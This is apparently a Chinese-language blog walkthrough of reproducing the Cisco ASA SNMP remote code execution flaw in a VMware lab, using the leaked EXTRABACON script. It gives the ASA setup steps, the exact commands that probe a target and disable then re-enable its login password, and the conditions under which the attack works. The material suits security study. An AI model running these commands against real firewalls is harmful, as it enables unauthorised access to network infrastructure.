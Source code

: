 ```yaml
---
layout:     post
title:      Cisco SNMP RCE漏洞复现
author:     wooy0ung
tags: 		cisco
category:  	exploit
---
```



>利用环境:
>攻击机: 192.168.2.63		Mac OSX 10.12.5  
>靶机: 192.168.2.10		Cisco ASA 8.42  
>主机: 192.168.2.142		Windows 10 Pro  
>利用脚本:  
>\eqgrp-free-file\Firewall\EXPLOITS\EXBA\extrabacon_1.1.0.1.py  
<!-- more -->


### 0x00 启动ASA虚拟机

VMware Workstation导入ASA-8.4.2虚拟机，修改虚拟网络编辑器桥接物理网卡，虚拟机网络设置桥接物理网络。

![](/assets/img/exploit/2017-06-15-cisco-snmp-rce/0x00.png)


![](/assets/img/exploit/2017-06-15-cisco-snmp-rce/0x01.png)


串行端口的命名管道修改为\\.\pipe\asa_com

![](/assets/img/exploit/2017-06-15-cisco-snmp-rce/0x02.png)

安装named pipe tcp proxy，按下图配置

![](/assets/img/exploit/2017-06-15-cisco-snmp-rce/0x03.png)

安装SecureCRT，新建Session

![](/assets/img/exploit/2017-06-15-cisco-snmp-rce/0x04.png)

打开ASA虚拟机电源，登入系统(用户名：netemu 密码：netemu)
```
ciscoasa> en
password:******
ciscoasa# show run
```
![](/assets/img/exploit/2017-06-15-cisco-snmp-rce/0x05.png)


### 0x01 配置ASA网络设置

配置网卡、IP

```
ciscoasa# configure terminal
ciscoasa(config)# interface GigabitEthernet0
ciscoasa(config-if)# ip address 192.168.2.10 255.255.255.0	# 配置该网卡IP为192.168.2.10
ciscoasa(config-if)# no shut
ciscoasa(config-if)# nameif inside
```

配置http/https管理方式

```
ciscoasa# configure terminal 
ciscoasa(config)# http server enable 
ciscoasa(config)# http 192.168.2.0 255.255.255.0 inside
```

使用浏览器访问https://192.168.2.10，在弹出页面安装ASDM，登入ASDM(用户名：netemu 密码：netemu)

![](/assets/img/exploit/2017-06-15-cisco-snmp-rce/0x06.png)

![](/assets/img/exploit/2017-06-15-cisco-snmp-rce/0x07.png)

ssh管理配置

```
ciscoasa# configure terminal 
ciscoasa(config)# crypto key generate rsa modulus 1024
INFO: The name for the keys will be: <Default-RSA-Key>
Keypair generation process begin. Please wait...
ciscoasa(config)# write memory
ciscoasa(config)# ssh 192.168.2.10 255.255.255.0 inside
ciscoasa(config)# aaa authentication ssh console LOCAL
```

telnet管理配置
```
ciscoasa# configure terminal 
ciscoasa(config)# telnet 192.168.2.10 255.255.255.0 inside
```

开启snmp-server
```
ciscoasa# configure terminal 
ciscoasa(config)# snmp-server host inside 192.168.2.20 community public
```


### 0x02 测试链路连接

确认主机到ASA链路正常

![](/assets/img/exploit/2017-06-15-cisco-snmp-rce/0x08.png)

确认主机到攻击机正常

![](/assets/img/exploit/2017-06-15-cisco-snmp-rce/0x09.png)

确认攻击机到ASA正常

![](/assets/img/exploit/2017-06-15-cisco-snmp-rce/0x0a.png)

确认ASA到攻击机正常

![](/assets/img/exploit/2017-06-15-cisco-snmp-rce/0x0b.png)

确认能通过ssh管理ASA
![](/assets/img/exploit/2017-06-15-cisco-snmp-rce/0x0c.png)


### 0x03 漏洞复现

ASA信息搜集，得到系统版本号、登陆名
```
python extrabacon_1.1.0.1.py info -t 192.168.2.10 -c public
```

![](/assets/img/exploit/2017-06-15-cisco-snmp-rce/0x0d.png)

ASA版本号是8.42，存在漏洞，下面disable登入密码

```
python extrabacon_1.1.0.1.py exec -k vZwDQA -t 192.168.2.10 -c public --mode pass-disable
```

![](/assets/img/exploit/2017-06-15-cisco-snmp-rce/0x0e.png)

成功登入系统(登陆名：ciscoasa)

```
ssh -p22 -o KexAlgorithms=+diffie-hellman-group1-sha1 ciscoasa@192.168.2.10
```

![](/assets/img/exploit/2017-06-15-cisco-snmp-rce/0x0f.png)

enable登入密码，已登陆状态能够保持，新机器登陆再次需要密码

```
python extrabacon_1.1.0.1.py exec -k vZwDQA -t 192.168.2.10 -c public --mode pass-enable
```

![](/assets/img/exploit/2017-06-15-cisco-snmp-rce/0x10.png)


### 0x04 漏洞利用条件

1.目标防火墙开启22(ssh)或23(telnet)管理方式

2.目标配置了snmp服务。并且snmp配置中的Host Access Entry IP地址和Community字符串能够获得或者已知。

3.目标版本在8.X-8.4.4之间。
